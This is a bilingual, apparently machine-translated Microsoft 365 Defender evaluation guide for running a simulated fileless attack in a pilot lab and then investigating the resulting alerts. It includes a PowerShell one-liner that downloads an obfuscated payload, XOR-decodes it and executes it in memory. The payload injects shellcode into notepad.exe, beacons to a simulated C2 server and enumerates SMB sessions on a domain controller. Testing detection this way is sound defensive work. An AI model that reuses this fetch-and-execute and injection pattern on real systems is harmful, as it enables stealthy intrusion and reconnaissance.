





# <a name="run-your-microsoft-365-defender-attack-simulations"></a><span data-ttu-id="1d201-104">攻撃シミュレーションMicrosoft 365 Defender実行する</span><span class="sxs-lookup"><span data-stu-id="1d201-104">Run your Microsoft 365 Defender attack simulations</span></span>

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|<span data-ttu-id="1d201-105">[](m365d-pilot-plan.md)</span><span class="sxs-lookup"><span data-stu-id="1d201-105">[](m365d-pilot-plan.md)</span></span><br/>[<span data-ttu-id="1d201-106">計画</span><span class="sxs-lookup"><span data-stu-id="1d201-106">Planning</span></span>](m365d-pilot-plan.md)|<span data-ttu-id="1d201-107">[](prepare-m365d-eval.md)</span><span class="sxs-lookup"><span data-stu-id="1d201-107">[](prepare-m365d-eval.md)</span></span><br/>[<span data-ttu-id="1d201-108">準備</span><span class="sxs-lookup"><span data-stu-id="1d201-108">Preparation</span></span>](prepare-m365d-eval.md)|<br/><span data-ttu-id="1d201-110">攻撃のシミュレーション</span><span class="sxs-lookup"><span data-stu-id="1d201-110">Simulate attack</span></span>|<span data-ttu-id="1d201-111">[](m365d-pilot-close.md)</span><span class="sxs-lookup"><span data-stu-id="1d201-111">[](m365d-pilot-close.md)</span></span><br/>[<span data-ttu-id="1d201-112">閉じて要約する</span><span class="sxs-lookup"><span data-stu-id="1d201-112">Close and summarize</span></span>](m365d-pilot-close.md)|
|--|--|--|--|
|||<span data-ttu-id="1d201-113">*お前はここにいる!*</span><span class="sxs-lookup"><span data-stu-id="1d201-113">*You are here!*</span></span>||

<span data-ttu-id="1d201-114">現在、攻撃シミュレーション フェーズに入っている。</span><span class="sxs-lookup"><span data-stu-id="1d201-114">You're currently in the attack simulation phase.</span></span>

<span data-ttu-id="1d201-115">パイロット環境を準備した後、インシデント管理と自動調査と修復機能Microsoft 365 Defenderテストします。</span><span class="sxs-lookup"><span data-stu-id="1d201-115">After preparing your pilot environment, it's time to test the Microsoft 365 Defender incident management and automated investigation and remediation capabilities.</span></span> <span data-ttu-id="1d201-116">高度な手法を活用して検出を非表示にする高度な攻撃をシミュレートするのに役立ちます。</span><span class="sxs-lookup"><span data-stu-id="1d201-116">We'll help you to simulate a sophisticated attack that leverages advanced techniques to hide from detection.</span></span> <span data-ttu-id="1d201-117">この攻撃は、ドメイン コントローラーで開いたサーバー メッセージ ブロック (SMB) セッションを列挙し、ユーザーのデバイスの最近の IP アドレスを取得します。</span><span class="sxs-lookup"><span data-stu-id="1d201-117">The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users' devices.</span></span> <span data-ttu-id="1d201-118">攻撃のこのカテゴリには、通常、被害者のデバイスにドロップされたファイルは含めされません。これらはメモリ内でのみ発生します。</span><span class="sxs-lookup"><span data-stu-id="1d201-118">This category of attacks usually doesn't include files dropped on the victim's device—they occur solely in memory.</span></span> <span data-ttu-id="1d201-119">既存のシステムツールと管理ツールを使用して"土地から離れ"、コードをシステム プロセスに挿入して実行を非表示にします。このような動作により、検出を回避し、デバイス上で保持できます。</span><span class="sxs-lookup"><span data-stu-id="1d201-119">They "live off the land" by using existing system and administrative tools and inject their code into system processes to hide their execution, Such behavior allows them to evade detection and persist on the device.</span></span>

<span data-ttu-id="1d201-120">このシミュレーションでは、サンプル シナリオは PowerShell スクリプトから始まります。</span><span class="sxs-lookup"><span data-stu-id="1d201-120">In this simulation, our sample scenario starts with a PowerShell script.</span></span> <span data-ttu-id="1d201-121">ユーザーがスクリプトの実行を騙される可能性があります。</span><span class="sxs-lookup"><span data-stu-id="1d201-121">A user might be tricked into running a script.</span></span> <span data-ttu-id="1d201-122">または、以前に感染したデバイスから別のコンピューターへのリモート接続からスクリプトが実行される場合があります。攻撃者がネットワーク内で横方向に移動しようとした場合。</span><span class="sxs-lookup"><span data-stu-id="1d201-122">Or the script might run from a remote connection to another computer from a previously infected device—the attacker attempting to move laterally in the network.</span></span> <span data-ttu-id="1d201-123">管理者は、さまざまな管理アクティビティを実行するためにリモートでスクリプトを実行する場合も多いので、これらのスクリプトの検出が困難になる場合があります。</span><span class="sxs-lookup"><span data-stu-id="1d201-123">Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.</span></span>


<span data-ttu-id="1d201-125">シミュレーション中、攻撃はシェルコードを一見無実のプロセスに挿入します。</span><span class="sxs-lookup"><span data-stu-id="1d201-125">During the simulation, the attack injects shellcode into a seemingly innocent process.</span></span> <span data-ttu-id="1d201-126">このシナリオでは、このシナリオを使用notepad.exe。</span><span class="sxs-lookup"><span data-stu-id="1d201-126">The scenario requires the use of notepad.exe.</span></span> <span data-ttu-id="1d201-127">シミュレーションではこのプロセスを選択しましたが、攻撃者は長時間実行されるシステム プロセス (たとえば、svchost.exe) をターゲットにしている可能性が高svchost.exe。</span><span class="sxs-lookup"><span data-stu-id="1d201-127">We chose this process for the simulation, but attackers would more likely target a long-running system process, such as svchost.exe.</span></span> <span data-ttu-id="1d201-128">その後、シェルコードは攻撃者のコマンド アンド コントロール (C2) サーバーに問い合わせ、続行方法に関する指示を受け取る。</span><span class="sxs-lookup"><span data-stu-id="1d201-128">The shellcode then goes on to contact the attacker's command-and-control (C2) server to receive instructions on how to proceed.</span></span> <span data-ttu-id="1d201-129">スクリプトは、ドメイン コントローラー (DC) に対する偵察クエリの実行を試みます。</span><span class="sxs-lookup"><span data-stu-id="1d201-129">The script attempts executing reconnaissance queries against the domain controller (DC).</span></span> <span data-ttu-id="1d201-130">偵察により、攻撃者は最近のユーザー ログイン情報に関する情報を取得できます。</span><span class="sxs-lookup"><span data-stu-id="1d201-130">Reconnaissance allows an attacker to get information about recent user login information.</span></span> <span data-ttu-id="1d201-131">攻撃者がこの情報を取得すると、ネットワーク内を横方向に移動して、特定の機密性の高いアカウントにアクセスできます。</span><span class="sxs-lookup"><span data-stu-id="1d201-131">Once attackers have this information, they can move laterally in the network to get to a specific sensitive account</span></span>

> [!IMPORTANT]
> <span data-ttu-id="1d201-132">最適な結果を得る場合は、可能な限り攻撃シミュレーションの指示に従ってください。</span><span class="sxs-lookup"><span data-stu-id="1d201-132">For optimum results, follow the attack simulation instructions as closely as possible.</span></span>

## <a name="simulation-environment-requirements"></a><span data-ttu-id="1d201-133">シミュレーション環境の要件</span><span class="sxs-lookup"><span data-stu-id="1d201-133">Simulation environment requirements</span></span>

<span data-ttu-id="1d201-134">準備フェーズ中にパイロット環境が既に構成済みである場合は、このシナリオに 2 つのデバイス (テスト デバイスとドメイン コントローラー) が存在するようにします。</span><span class="sxs-lookup"><span data-stu-id="1d201-134">Since you have already configured your pilot environment during the preparation phase, ensure that you have two devices for this scenario: a test device and a domain controller.</span></span>

1. <span data-ttu-id="1d201-135">テナントが有効になっている[Microsoft 365 Defender。](m365d-enable.md#confirm-that-the-service-is-on)</span><span class="sxs-lookup"><span data-stu-id="1d201-135">Verify your tenant has [enabled Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).</span></span>

2. <span data-ttu-id="1d201-136">テスト ドメイン コントローラーの構成を確認します。</span><span class="sxs-lookup"><span data-stu-id="1d201-136">Verify your test domain controller configuration:</span></span>

   - <span data-ttu-id="1d201-137">デバイスは、Windows Server 2008 R2 以降のバージョンで実行されます。</span><span class="sxs-lookup"><span data-stu-id="1d201-137">Device runs with Windows Server 2008 R2 or a later version.</span></span>
   - <span data-ttu-id="1d201-138">Microsoft Defender for Identity へのテスト ドメイン コントローラー [で、](/azure/security-center/security-center-wdatp) リモート管理 [を有効にします](/windows-server/administration/server-manager/configure-remote-management-in-server-manager)。</span><span class="sxs-lookup"><span data-stu-id="1d201-138">The test domain controller to [Microsoft Defender for Identity](/azure/security-center/security-center-wdatp) and enable [remote management](/windows-server/administration/server-manager/configure-remote-management-in-server-manager).</span></span>
   - <span data-ttu-id="1d201-139">Microsoft [Defender for Identity and Microsoft Cloud App Securityが有効](/cloud-app-security/mdi-integration)になっているか確認します。</span><span class="sxs-lookup"><span data-stu-id="1d201-139">Verify that [Microsoft Defender for Identity and Microsoft Cloud App Security integration](/cloud-app-security/mdi-integration) have been enabled.</span></span>
   - <span data-ttu-id="1d201-140">テスト ユーザーはドメインに作成されます。管理者のアクセス許可は不要です。</span><span class="sxs-lookup"><span data-stu-id="1d201-140">A test user is created on your domain – no admin permissions needed.</span></span>

3. <span data-ttu-id="1d201-141">テスト デバイスの構成を確認します。</span><span class="sxs-lookup"><span data-stu-id="1d201-141">Verify test device configuration:</span></span>

   1. <span data-ttu-id="1d201-142">デバイスは、Windows 10バージョン 1903 以降で実行されます。</span><span class="sxs-lookup"><span data-stu-id="1d201-142">Device runs with Windows 10 version 1903 or a later version.</span></span>

   1. <span data-ttu-id="1d201-143">テスト デバイスはテスト ドメインに参加しています。</span><span class="sxs-lookup"><span data-stu-id="1d201-143">Test device is joined to the test domain.</span></span>

   1. <span data-ttu-id="1d201-144">[[オンにする] をWindows Defender ウイルス対策](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)します。</span><span class="sxs-lookup"><span data-stu-id="1d201-144">[Turn on Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="1d201-145">問題が発生した場合は、このトラブルシューティング Windows Defender ウイルス対策を[参照してください](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)。</span><span class="sxs-lookup"><span data-stu-id="1d201-145">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>

   1. <span data-ttu-id="1d201-146">テスト デバイスが Microsoft Defender for Endpoint にオンボードされている[のを確認します。](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)</span><span class="sxs-lookup"><span data-stu-id="1d201-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="1d201-147">既存のテナントを使用してデバイス グループを実装する場合は、テスト デバイス用の専用デバイス グループを作成し、構成 UX で上位レベルにプッシュします。</span><span class="sxs-lookup"><span data-stu-id="1d201-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="1d201-148">攻撃シナリオのシミュレーションを実行する</span><span class="sxs-lookup"><span data-stu-id="1d201-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="1d201-149">攻撃シナリオのシミュレーションを実行するには、次のコマンドを実行します。</span><span class="sxs-lookup"><span data-stu-id="1d201-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="1d201-150">テスト ユーザー アカウントを使用してテスト デバイスにログインします。</span><span class="sxs-lookup"><span data-stu-id="1d201-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="1d201-151">テスト デバイスWindows PowerShellウィンドウを開きます。</span><span class="sxs-lookup"><span data-stu-id="1d201-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="1d201-152">次のシミュレーション スクリプトをコピーします。</span><span class="sxs-lookup"><span data-stu-id="1d201-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="1d201-153">Web ブラウザーでこのドキュメントを開いた場合、特定の文字を失わずにフル テキストをコピーしたり、改行を追加したりせずに問題が発生する可能性があります。</span><span class="sxs-lookup"><span data-stu-id="1d201-153">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="1d201-154">このドキュメントをダウンロードし、Adobe Reader で開きます。</span><span class="sxs-lookup"><span data-stu-id="1d201-154">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="1d201-155">プロンプトで、コピーしたスクリプトを貼り付け、実行します。</span><span class="sxs-lookup"><span data-stu-id="1d201-155">At the prompt, paste and run the copied script.</span></span>

> [!NOTE]
> <span data-ttu-id="1d201-156">リモート デスクトップ プロトコル (RDP) を使用して PowerShell を実行している場合は **、CTRL-V** ホットキーまたは右クリック貼り付けメソッドが機能しないので、RDP クライアントで [クリップボード テキストの種類] コマンドを使用します。</span><span class="sxs-lookup"><span data-stu-id="1d201-156">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span> <span data-ttu-id="1d201-157">PowerShell の最近のバージョンでは、そのメソッドを受け入れれなく場合があります。最初にメモリ内の メモ帳 にコピーし、仮想マシンにコピーしてから PowerShell に貼り付ける必要があります。</span><span class="sxs-lookup"><span data-stu-id="1d201-157">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="1d201-158">数秒後 <i> 、notepad.exe開 </i> きます。</span><span class="sxs-lookup"><span data-stu-id="1d201-158">A few seconds later, <i>notepad.exe</i> will open.</span></span> <span data-ttu-id="1d201-159">シミュレートされた攻撃コードは、そのコードにnotepad.exe。</span><span class="sxs-lookup"><span data-stu-id="1d201-159">A simulated attack code will be injected into notepad.exe.</span></span> <span data-ttu-id="1d201-160">完全なシナリオを体験するためにメモ帳自動的に生成されたインスタンスを開いた状態に保ちます。</span><span class="sxs-lookup"><span data-stu-id="1d201-160">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>

<span data-ttu-id="1d201-161">シミュレートされた攻撃コードは、外部 IP アドレス (C2 サーバーのシミュレート) に通信し、SMB を介してドメイン コントローラーに対する偵察を試みる。</span><span class="sxs-lookup"><span data-stu-id="1d201-161">The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.</span></span>

<span data-ttu-id="1d201-162">このスクリプトが完了すると、PowerShell コンソールにメッセージが表示されます。</span><span class="sxs-lookup"><span data-stu-id="1d201-162">You'll see a message displayed on the PowerShell console when this script completes.</span></span>

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

<span data-ttu-id="1d201-163">[インシデントと応答の自動化] 機能が動作しているのを確認するには、プロセスを開notepad.exe保持します。</span><span class="sxs-lookup"><span data-stu-id="1d201-163">To see the Automated Incident and Response feature in action, keep the notepad.exe process open.</span></span> <span data-ttu-id="1d201-164">[インシデントと応答の自動停止] プロセスが表示メモ帳表示されます。</span><span class="sxs-lookup"><span data-stu-id="1d201-164">You'll see Automated Incident and Response stop the Notepad process.</span></span>

## <a name="investigate-an-incident"></a><span data-ttu-id="1d201-165">インシデントの調査</span><span class="sxs-lookup"><span data-stu-id="1d201-165">Investigate an incident</span></span>

> [!NOTE]
> <span data-ttu-id="1d201-166">このシミュレーションを実行する前に、次のビデオを見て、インシデント管理が関連するアラートを調査プロセスの一部としてまとめ、ポータルで見つけ、セキュリティ操作でどのように役立つのかについて説明します。</span><span class="sxs-lookup"><span data-stu-id="1d201-166">Before we walk you through this simulation, watch the following video to see how incident management helps you piece the related alerts together as part of the investigation process, where you can find it in the portal, and how it can help you in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

<span data-ttu-id="1d201-167">SOC アナリストの視点に切り替えて、セキュリティ センター ポータルで攻撃の調査Microsoft 365開始できます。</span><span class="sxs-lookup"><span data-stu-id="1d201-167">Switching to the SOC analyst point of view, you can now start to investigate the attack in the Microsoft 365 Security Center portal.</span></span>

1. <span data-ttu-id="1d201-168">任意の[デバイスMicrosoft 365セキュリティ センター ポータル インシデント](https://security.microsoft.com/incidents)キューを開きます。</span><span class="sxs-lookup"><span data-stu-id="1d201-168">Open the [Microsoft 365 Security Center portal](https://security.microsoft.com/incidents) incident queue from any device.</span></span>

2. <span data-ttu-id="1d201-169">メニューから **[インシデント]** に移動します。</span><span class="sxs-lookup"><span data-stu-id="1d201-169">Navigate to **Incidents** from the menu.</span></span>

    

3. <span data-ttu-id="1d201-171">シミュレートされた攻撃の新しいインシデントがインシデント キューに表示されます。</span><span class="sxs-lookup"><span data-stu-id="1d201-171">The new incident for the simulated attack will appear in the incident queue.</span></span>

    

### <a name="investigate-the-attack-as-a-single-incident"></a><span data-ttu-id="1d201-173">攻撃を 1 つのインシデントとして調査する</span><span class="sxs-lookup"><span data-stu-id="1d201-173">Investigate the attack as a single incident</span></span>

<span data-ttu-id="1d201-174">Microsoft 365 Defender分析を関連付け、異なる製品のすべての関連するアラートと調査を 1 つのインシデント エンティティに集約します。</span><span class="sxs-lookup"><span data-stu-id="1d201-174">Microsoft 365 Defender correlates analytics and aggregates all related alerts and investigations from different products into one incident entity.</span></span> <span data-ttu-id="1d201-175">これにより、SOC アナリストMicrosoft 365 Defender複雑な脅威を理解して対応できるように、より広範な攻撃ストーリーが表示されます。</span><span class="sxs-lookup"><span data-stu-id="1d201-175">By doing so, Microsoft 365 Defender shows a broader attack story, allowing the SOC analyst to understand and respond to complex threats.</span></span>

<span data-ttu-id="1d201-176">このシミュレーション中に生成されたアラートは同じ脅威に関連付けられるので、その結果、1 つのインシデントとして自動的に集計されます。</span><span class="sxs-lookup"><span data-stu-id="1d201-176">The alerts generated during this simulation are associated with the same threat, and as a result, are automatically aggregated as a single incident.</span></span>

<span data-ttu-id="1d201-177">インシデントを表示するには、次の方法を実行します。</span><span class="sxs-lookup"><span data-stu-id="1d201-177">To view the incident:</span></span>

1. <span data-ttu-id="1d201-178">インシデント キュー **に移動** します。</span><span class="sxs-lookup"><span data-stu-id="1d201-178">Navigate to the **Incidents** queue.</span></span>

   

2. <span data-ttu-id="1d201-180">インシデント名の左側にある円をクリックして、最新のアイテムを選択します。</span><span class="sxs-lookup"><span data-stu-id="1d201-180">Select the newest item by clicking on the circle located left of the incident name.</span></span> <span data-ttu-id="1d201-181">サイド パネルには、関連するアラートを含むインシデントに関する追加情報が表示されます。</span><span class="sxs-lookup"><span data-stu-id="1d201-181">A side panel displays additional information about the incident, including all the related alerts.</span></span> <span data-ttu-id="1d201-182">各インシデントには、含まれるアラートの属性に基づいて説明する一意の名前があります。</span><span class="sxs-lookup"><span data-stu-id="1d201-182">Each incident has a unique name that describes it based on the attributes of the alerts it includes.</span></span>

   

   <span data-ttu-id="1d201-184">ダッシュボードに表示されるアラートは、サービス リソース (Microsoft Defender for Identity、Microsoft Cloud App Security、Microsoft Defender for Endpoint、Microsoft 365 Defender、および Microsoft Defender for Office 365 に基づいてフィルター処理できます。</span><span class="sxs-lookup"><span data-stu-id="1d201-184">The alerts that show in the dashboard can be filtered based on service resources: Microsoft Defender for Identity, Microsoft Cloud App Security, Microsoft Defender for Endpoint, Microsoft 365 Defender, and Microsoft Defender for Office 365.</span></span>

3. <span data-ttu-id="1d201-185">インシデント **の詳細を取得するには、[** インシデント ページを開く] を選択します。</span><span class="sxs-lookup"><span data-stu-id="1d201-185">Select **Open incident page** to get more information about the incident.</span></span>

   <span data-ttu-id="1d201-186">[インシデント **] ページ** では、インシデントに関連するアラートと情報を確認できます。</span><span class="sxs-lookup"><span data-stu-id="1d201-186">In the **Incident** page, you can see all the alerts and information related to the incident.</span></span> <span data-ttu-id="1d201-187">この情報には、アラートに関連するエンティティとアセット、アラートの検出ソース (Microsoft Defender for Identity、EDR)、およびアラートがリンクされた理由が含まれます。</span><span class="sxs-lookup"><span data-stu-id="1d201-187">The information includes the entities and assets that are involved in the alert, the detection source of the alerts (Microsoft Defender for Identity, EDR), and the reason they were linked together.</span></span> <span data-ttu-id="1d201-188">インシデントアラートリストを確認すると、攻撃の進行状況が表示されます。</span><span class="sxs-lookup"><span data-stu-id="1d201-188">Reviewing the incident alert list shows the progression of the attack.</span></span> <span data-ttu-id="1d201-189">このビューから、個々のアラートを確認および調査できます。</span><span class="sxs-lookup"><span data-stu-id="1d201-189">From this view, you can see and investigate the individual alerts.</span></span>

   <span data-ttu-id="1d201-190">右側のメニューから [ **インシデント** の管理] をクリックして、インシデントにタグを付け、自分に割り当て、コメントを追加することもできます。</span><span class="sxs-lookup"><span data-stu-id="1d201-190">You can also click **Manage incident** from the right-hand menu, to tag the incident, assign it to yourself, and add comments.</span></span>

   ![[インシデントの管理] をクリックする場所のスクリーンショット](../../media/mtp/fig5a.png)

   

### <a name="review-generated-alerts"></a><span data-ttu-id="1d201-193">生成されたアラートを確認する</span><span class="sxs-lookup"><span data-stu-id="1d201-193">Review generated alerts</span></span>

<span data-ttu-id="1d201-194">シミュレートされた攻撃中に生成されたアラートの一部を見てみよ。</span><span class="sxs-lookup"><span data-stu-id="1d201-194">Let's look at some of the alerts generated during the simulated attack.</span></span>

> [!NOTE]
> <span data-ttu-id="1d201-195">シミュレートされた攻撃中に生成されたアラートの一部のみを実行します。</span><span class="sxs-lookup"><span data-stu-id="1d201-195">We'll walk through only a few of the alerts generated during the simulated attack.</span></span> <span data-ttu-id="1d201-196">テスト デバイスで実行されている Windowsおよび Microsoft 365 Defender 製品のバージョンによっては、少し異なる順序で表示されるアラートが多く表示される場合があります。</span><span class="sxs-lookup"><span data-stu-id="1d201-196">Depending on the version of Windows and the Microsoft 365 Defender products running on your test device, you might see more alerts that appear in a slightly different order.</span></span>


#### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint-edr"></a><span data-ttu-id="1d201-198">アラート: 疑わしいプロセスの挿入が観察されました (ソース: Microsoft Defender for Endpoint EDR)</span><span class="sxs-lookup"><span data-stu-id="1d201-198">Alert: Suspicious process injection observed (Source: Microsoft Defender for Endpoint EDR)</span></span>

<span data-ttu-id="1d201-199">高度な攻撃者は、高度でステルス性の高い方法を使用してメモリを保持し、検出ツールから隠します。</span><span class="sxs-lookup"><span data-stu-id="1d201-199">Advanced attackers use sophisticated and stealthy methods to persist in memory and hide from detection tools.</span></span> <span data-ttu-id="1d201-200">一般的な手法の 1 つは、悪意のある実行可能ファイルではなく、信頼できるシステム プロセス内から操作し、検出ツールやセキュリティ操作が悪意のあるコードを見つけるのを難しくする方法です。</span><span class="sxs-lookup"><span data-stu-id="1d201-200">One common technique is to operate from within a trusted system process rather than a malicious executable, making it hard for detection tools and security operations to spot the malicious code.</span></span>

<span data-ttu-id="1d201-201">SOC アナリストがこれらの高度な攻撃をキャッチできるよう、Microsoft Defender for Endpoint のディープ メモリ センサーは、さまざまなクロスプロセス コードインジェクション手法をこれまでにない可視性でクラウド サービスに提供します。</span><span class="sxs-lookup"><span data-stu-id="1d201-201">To allow the SOC analysts to catch these advanced attacks, deep memory sensors in Microsoft Defender for Endpoint provide our cloud service with unprecedented visibility into a variety of cross-process code injection techniques.</span></span> <span data-ttu-id="1d201-202">次の図は、Defender for Endpoint がコードを挿入しようとして検出され、警告を受け取った<i>notepad.exe。 </i></span><span class="sxs-lookup"><span data-stu-id="1d201-202">The following figure shows how Defender for Endpoint detected and alerted on the attempt to inject code to <i>notepad.exe</i>.</span></span>


#### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint-edr"></a><span data-ttu-id="1d201-204">アラート: コマンド ライン引数を使用しないプロセス実行で予期しない動作が発生する (ソース: エンドポイントの Microsoft Defender EDR)</span><span class="sxs-lookup"><span data-stu-id="1d201-204">Alert: Unexpected behavior observed by a process run with no command-line arguments (Source: Microsoft Defender for Endpoint EDR)</span></span>

<span data-ttu-id="1d201-205">Microsoft Defender for Endpoint の検出は、攻撃手法の最も一般的な属性をターゲットにしている場合が多い。</span><span class="sxs-lookup"><span data-stu-id="1d201-205">Microsoft Defender for Endpoint detections often target the most common attribute of an attack technique.</span></span> <span data-ttu-id="1d201-206">このメソッドは、耐久性を確保し、攻撃者が新しい戦術に切り替えるバーを上げる。</span><span class="sxs-lookup"><span data-stu-id="1d201-206">This method ensures durability and raises the bar for attackers to switch to newer tactics.</span></span>

<span data-ttu-id="1d201-207">大規模な学習アルゴリズムを使用して、組織内および世界中の共通プロセスの通常の動作を確立し、これらのプロセスが異常な動作を示す状況を監視します。</span><span class="sxs-lookup"><span data-stu-id="1d201-207">We employ large-scale learning algorithms to establish the normal behavior of common processes within an organization and worldwide and watch for when these processes show anomalous behaviors.</span></span> <span data-ttu-id="1d201-208">これらの異常な動作は、多くの場合、余分なコードが導入され、それ以外の場合は信頼できるプロセスで実行されている状態を示しています。</span><span class="sxs-lookup"><span data-stu-id="1d201-208">These anomalous behaviors often indicate that extraneous code was introduced and are running in an otherwise trusted process.</span></span>

<span data-ttu-id="1d201-209">このシナリオでは、 <i> プロセスが </i>notepad.exe、外部の場所との通信を伴う異常な動作を示しています。</span><span class="sxs-lookup"><span data-stu-id="1d201-209">For this scenario, the process <i>notepad.exe</i> is exhibiting abnormal behavior, involving communication with an external location.</span></span> <span data-ttu-id="1d201-210">この結果は、悪意のあるコードの導入と実行に使用される特定のメソッドとは独立しています。</span><span class="sxs-lookup"><span data-stu-id="1d201-210">This outcome is independent of the specific method used to introduce and execute the malicious code.</span></span>

> [!NOTE]
> <span data-ttu-id="1d201-211">このアラートは、追加のバックエンド処理を必要とする機械学習モデルに基づくため、ポータルでこのアラートが表示されるには時間がかかる場合があります。</span><span class="sxs-lookup"><span data-stu-id="1d201-211">Because this alert is based on machine-learning models that require additional backend processing, it might take some time before you see this alert in the portal.</span></span>

<span data-ttu-id="1d201-212">アラートの詳細には、調査を展開するピボットとして使用できるインジケーターである外部 IP アドレスが含まれます。</span><span class="sxs-lookup"><span data-stu-id="1d201-212">Notice that the alert details include the external IP address—an indicator that you can use as a pivot to expand investigation.</span></span>

<span data-ttu-id="1d201-213">アラート プロセス ツリーで IP アドレスを選択して、[IP アドレスの詳細] ページを表示します。</span><span class="sxs-lookup"><span data-stu-id="1d201-213">Select the IP address in the alert process tree to view the IP address details page.</span></span>


<span data-ttu-id="1d201-215">次の図は、選択した IP アドレスの詳細ページを表示します (アラート プロセス ツリーの IP アドレスをクリックします)。</span><span class="sxs-lookup"><span data-stu-id="1d201-215">The following figure displays the selected IP Address details page (clicking on IP address in the Alert process tree).</span></span>
<span data-ttu-id="1d201-216">![[IP アドレスの詳細] ページのスクリーンショット](../../media/mtp/fig9.png)</span><span class="sxs-lookup"><span data-stu-id="1d201-216"></span></span>

#### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a><span data-ttu-id="1d201-217">アラート: ユーザーと IP アドレスの偵察 (SMB) (ソース: Microsoft Defender for Identity)</span><span class="sxs-lookup"><span data-stu-id="1d201-217">Alert: User and IP address reconnaissance (SMB) (Source: Microsoft Defender for Identity)</span></span>

<span data-ttu-id="1d201-218">サーバー メッセージ ブロック (SMB) プロトコルを使用した列挙により、攻撃者は、ネットワークを横方向に移動して特定の機密性の高いアカウントにアクセスするのに役立つ、最近のユーザー ログオン情報を取得できます。</span><span class="sxs-lookup"><span data-stu-id="1d201-218">Enumeration using Server Message Block (SMB) protocol enables attackers to get recent user logon information that helps them move laterally through the network to access a specific sensitive account.</span></span>

<span data-ttu-id="1d201-219">この検出では、SMB セッション列挙がドメイン コントローラーに対して実行されると、アラートがトリガーされます。</span><span class="sxs-lookup"><span data-stu-id="1d201-219">In this detection, an alert is triggered when the SMB session enumeration runs against a domain controller.</span></span>


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a><span data-ttu-id="1d201-221">デバイスのタイムラインを確認する [Microsoft Defender for Endpoint]</span><span class="sxs-lookup"><span data-stu-id="1d201-221">Review the device timeline [Microsoft Defender for Endpoint]</span></span>

<span data-ttu-id="1d201-222">このインシデントのさまざまなアラートを確認した後、前に調査したインシデント ページに戻ります。</span><span class="sxs-lookup"><span data-stu-id="1d201-222">After exploring the various alerts in this incident, navigate back to the incident page you investigated earlier.</span></span> <span data-ttu-id="1d201-223">インシデント ページ **の [デバイス** ] タブを選択して、Microsoft Defender for Endpoint および Microsoft Defender for Identity によって報告されたこのインシデントに関連するデバイスを確認します。</span><span class="sxs-lookup"><span data-stu-id="1d201-223">Select the **Devices** tab in the incident page to review the devices involved in this incident as reported by Microsoft Defender for Endpoint and Microsoft Defender for Identity.</span></span>

